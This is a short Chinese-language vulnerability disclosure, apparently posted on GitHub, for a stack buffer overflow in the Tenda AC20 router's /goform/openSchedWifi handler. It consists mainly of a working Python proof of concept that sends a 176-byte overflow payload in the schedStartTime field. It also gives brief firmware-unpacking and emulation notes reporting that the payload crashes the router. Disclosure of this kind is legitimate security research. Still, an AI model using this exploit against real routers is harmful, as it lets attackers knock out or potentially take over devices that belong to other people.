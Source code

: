 深圳市吉祥腾达科技有限公司-Tenda AC20 /goform/openSchedWifi文件缓冲区溢出漏洞

漏洞URL：http://ip/goform/openSchedWifi

POC：
```
from pwn import *
import requests

payload = b'a'*176

url = "http://192.168.100.254/goform/openSchedWifi"

cookie = {"Cookie":"password=12345"}
data = {"schedStartTime": b"\r" + payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```

1.固件解包分离出文件系统，分析文件

2.存在栈溢出漏洞函数

<img width="284" height="237" alt="image" src="https://github.com/user-attachments/assets/6d949f21-8b07-4904-bbcc-f7af9d89957c" />


3.固件仿真模拟攻击
POC造成路由器崩溃

<img width="413" height="69" alt="image" src="https://github.com/user-attachments/assets/515ad410-a691-4f95-8c39-23ab621d9a7e" />
